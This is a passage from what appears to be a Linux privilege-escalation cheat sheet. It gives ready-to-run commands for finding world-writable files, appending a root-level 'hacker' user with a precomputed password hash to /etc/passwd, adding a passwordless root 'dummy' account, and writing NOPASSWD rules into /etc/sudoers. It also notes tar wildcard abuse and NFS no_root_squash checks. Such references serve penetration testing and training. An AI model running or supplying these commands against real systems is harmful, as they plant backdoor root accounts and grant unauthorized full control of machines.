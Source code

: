     # vulnerable script
    tar cf archive.tar *

Tool: [wildpwn](https://github.com/localh0t/wildpwn)

## Writable files

List world writable files on the system.

    find / -writable ! -user \`whoami\` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
    find / -perm -2 -type f 2>/dev/null
    find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null

### Writable /etc/passwd

First generate a password with one of the following commands.

    openssl passwd -1 -salt hacker hacker
    mkpasswd -m SHA-512 hacker
    python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'

Then add the user `hacker` and add the generated password.

    hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password. WARNING: you might degrade the current security of the machine.

    echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
    su - dummy

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`.

### Writable /etc/sudoers

    echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers
    
    # use SUDO without password
    echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
    echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers

## NFS Root Squashing

When **no_root_squash** appears in `/etc/exports`, the folder is shareable and a remote user can mount it.

    # remote check the name of the folder
    showmount -e 10.10.10.10
    